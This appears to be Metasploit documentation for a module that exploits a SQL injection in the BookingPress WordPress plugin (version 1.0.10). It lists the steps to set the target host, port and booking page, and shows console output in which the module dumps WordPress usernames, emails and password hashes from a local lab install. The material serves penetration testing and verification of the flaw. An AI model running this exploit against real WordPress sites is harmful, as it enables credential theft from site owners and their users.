 ## Verification Steps

1. Start msfconsole.
1. Do: `use auxiliary/gather/wp_bookingpress_category_services_sqli`.
1. Set the options `RHOSTS` to the target WordPress host IP address.
1. Set `RPORT` to the port that the target WordPress install is running on.
1. Set `BOOKING_PRESS_PAGE` to the path on the WordPress host where the BookingPress make a booking page is.
1. Verify visiting this URL shows "Select Category" and "Select Service" on the resulting page.
1. Run the module.
1. Receive a table of WordPress users and their associated email addresses and password hashes.

## Scenarios
### Booking Press 1.0.10, WordPress Running Via Docksal, Ubuntu 20.04
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
